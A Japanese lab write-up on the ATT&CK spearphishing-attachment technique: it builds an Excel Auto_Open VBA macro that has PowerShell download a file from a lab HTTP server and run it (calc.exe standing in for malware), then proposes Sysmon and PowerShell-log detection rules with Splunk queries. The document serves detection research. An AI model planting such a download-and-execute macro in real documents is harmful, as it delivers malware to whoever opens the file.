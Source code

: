 # T1566.001 - Phishing Spearphishing Attachment

Phishing Spearphishing Attachment 検証
-------------

MS Office VBA Macro によるリモートファイルの実行とその検知について記載します。

|  Type  | Description   |
|:---|:---|:---|
|  ID  |  T1566.001  |
|  Tactic  |  Initial Access |
|  Techniques  |  Phishing  |
|  Sub-techniques  |  Spearphishing Attachment |


本検証では、リモート端末にホストされた悪意のあるファイルに見立てた calc.exe ファイルを取得し実行するマクロを実装します。

VBA マクロを操作するために、リボンの設定から「開発」にチェックを入れます。

![T1566.001-1](images/T1566.001/1.png)

追加された開発タブからVisual Basic を選択し、VBA プロジェクトから標準モジュールを挿入します。

![T1566.001-002](images/T1566.001/2.png)

ここではリモート端末にホストされた悪意のあるファイル相当の calc.exe ファイルを取得し実行するマクロを実装します。

```
Sub Auto_Open()

Set ws = CreateObject("WScript.Shell")

ws.Run "cmd.exe /c powershell.exe -Command (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.254:8080/calc.exe ','%USERPROFILE%\Desktop\malicious.exe'); %USERPROFILE%\Desktop\malicious.exe", 0, True

End Sub
```

今回のケースではリモート端末として Kali Linux を用意し、別途 Windows から取得した calc.exe を配置しています。
簡単のために Simple HTTP Server を用いて GET の待ち受けを行います。

![T1566.001-3](images/T1566.001/3.png)

```
$ python2 -m SimpleHTTPServer 8080
```

VBA マクロが正しく動作するかの確認は、緑の実行ボタンから確認することができます。

![T1566.001-4](images/T1566.001/4.png)

リモート端末側では calc.exe が取得される様子が確認できます。

![T1566.001-5](images/T1566.001/5.png)

最後に、MS Excel をマクロが動作する xlsm 形式で保存します。

ファイルをオープンすると「コンテンツの有効化」が求められ、クリックすることでcalc.exe ファイルの取得と実行が行われます。

![T1566.001-6](images/T1566.001/6.png)


検知ルール検討
-------------

検知ルールについて検討します。
検証を行った本攻撃手法では、MS Office から cmd.exe が呼び出されています。
excel.exe や winword.exe といった MS Office が Caller となり cmd.exe や powershell.exe のプロセスが生成されることは通常の業務利用では稀であると考え、このプロセスの関係を検知ルールに落とし込む方法が考えられます。
Sysmon の EID 1 では生成されたプロセスとその呼び出し元プロセスがそれぞれ Image と ParentImageとして記録されます。

Splunk であれば以下のような SPL でプロセスの関係性をテーブル表示、またはビジュアル化することが可能です。

```
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
|eval ParentImage(From)=ParentImage 
|eval Image(To)=Image
|search "ParentImage(From)" != null
|table _time ParentImage(From) Image(To) process EventCode
|sort - _time
```
![T1566.001-7](images/T1566.001/7.png)

![T1566.001-8](images/T1566.001/8.png)

MS Office が Caller となり cmd.exe および powershell.exe のプロセスを生成する点に着目し、以下の検知ルールを提案します。

**MS Office からの cmd.exe および powershell.exe プロセス生成の検知ルール**

```
Sysmon
  EID 1 
    ParentImage 
      (*\EXCEL.EXE) OR (*\WINWORD.EXE)
　 AND
　 Image
      (*\cmd.exe) OR (*\powershell.exe) 
```

次に、本攻撃手法では、powershell.exe がリモートのファイルをダウンロードし、実行を行います。
その際に使われる Powershell のコマンドに着目し検知ルールを検討します。

Powershell の拡張ログでモジュールログ (EID4103)、スクリプトブロックログ (EID4104)それぞれで記録されるコマンド履歴に対してコマンドをマッチさせます。

Splunk であれば以下のような SPL で Powershell のコマンド部分を抽出することができます。

```
host="DESKTOP-53N6B15" source="XmlWinEventLog:Microsoft-Windows-PowerShell/Operational" EventID=4104
| rex field=EventData_Xml "<Data Name='ScriptBlockText'>(?P<PS_COMMAND>.+?)</Data>"  
| stats  count by PS_COMMAND  
| sort  - count
```

![T1566.001-9](images/T1566.001/9.png)

powershell.exe がリモートのファイルをダウンロードするコマンドに着目し、以下の検知ルールを提案します。

**powershell.exe によるリモートファイル取得の検知ルール**

```
Powershell
  EID 4103
    EventData
      Data Name="ContextInfo"
        (*WebClient*) AND (*DownloadFile*)
  OR
  EID 4104
    EventData
      Data Name="ScriptBlockText"
        (*WebClient*) AND (*DownloadFile*)
```

[Powershell.evtx をダウンロード](attach:attack-logs/T1566.001/Powershell.evtx)

[Sysmon.evtx をダウンロード](attach:attack-logs/T1566.001/Sysmon.evtx)